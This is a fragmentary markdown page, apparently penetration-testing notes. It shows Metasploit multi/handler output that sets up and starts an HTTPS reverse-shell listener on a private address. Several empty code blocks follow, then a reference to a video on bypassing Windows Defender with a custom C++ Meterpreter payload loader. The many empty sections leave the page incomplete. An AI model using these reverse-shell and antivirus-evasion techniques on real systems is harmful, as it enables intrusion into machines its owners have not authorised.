 ```sh
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.1.1.10        yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run 

[*] Started HTTPS reverse handler on https://10.1.1.10:8443
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# [References](#references-1)

How to bypass Windows Defender with Custom C++ .EXE Payload Loader (Meterpreter Reverse Shell)
https://www.youtube.com/watch?v=4ntO_9kk23E
